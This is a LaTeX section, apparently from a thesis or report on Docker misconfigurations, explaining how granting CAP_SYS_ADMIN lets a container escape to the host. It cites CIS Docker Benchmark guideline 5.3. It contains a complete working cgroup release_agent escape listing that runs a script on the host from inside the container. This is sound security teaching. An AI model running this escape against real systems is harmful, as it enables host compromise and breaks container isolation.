 \subsection{Capabilities}\label{misconfigurations:subsection:capabilities}
As we saw in \autoref{protection-mechanisms:subsection:capabilities}, in order to perform privileged actions in the Linux kernel, a process needs the relevant \lstinline{capability}. Docker containers are started with minimal capabilities, but it is possible to add extra capabilities at runtime. Giving containers extra capabilities gives the container permission to perform certain actions. Some of these actions allow Docker escapes. We will look at two such capabilities in the following sections.

\medskip

The CIS Docker Benchmark covers all of these problems in one guideline: 5.3 (Ensure that Linux kernel capabilities are restricted within containers).

\subsubsection{\texorpdfstring{\lstinline{CAP_SYS_ADMIN}}{CAP SYS ADMIN}}\label{CAP_SYS_ADMIN}
The Docker escape by Felix Wilhelm~\cite{Felix-Wilhem-Tweet} we used in \autoref{subsection:privileged} needs to be run in privileged mode to work, but it can be rewritten to only need the permission to run \lstinline{mount}~\cite{TrailOfBits-Docker-Escape}, which is granted by the \lstinline{CAP_SYS_ADMIN} capability.

\begin{lstlisting}[numbers=left, escapechar=@, caption={Docker escape using \lstinline{CAP_SYS_ADMIN}.},captionpos=b]
(host)$ docker run --rm -it --cap-add=CAP_SYS_ADMIN --security-opt apparmor=unconfined ubuntu /bin/bash
(cont)# mkdir /tmp/cgrp@\label{line:capabilities:cgrp}@
(cont)# mount -t cgroup -o rdma cgroup /tmp/cgrp@\label{line:capabilities:mount-cgrp}@
(cont)# mkdir /tmp/cgrp/x@\label{line:capabilities:x}@
(cont)# echo 1 > /tmp/cgrp/x/notify_on_release
(cont)# host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
(cont)# echo "$host_path/cmd" > /tmp/cgrp/release_agent
(cont)# echo '#!/bin/sh' > /cmd
(cont)# echo "ps aux > $host_path/output" >> /cmd
(cont)# chmod a+x /cmd
(cont)# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
(cont)# cat /output
\end{lstlisting}

Unlike before, instead of relying on \lstinline{--privileged} to give us write access to a \lstinline{cgroup}, we just need to mount our own. On \autoref{line:capabilities:cgrp} and \autoref{line:capabilities:mount-cgrp} a new \lstinline{cgroup} \lstinline{cgrp} is created and mounted to \lstinline{/tmp/cgrp}. Now we have a \lstinline{cgroup} that we have write access too, we can perform the same exploit as in \autoref{subsection:privileged}.

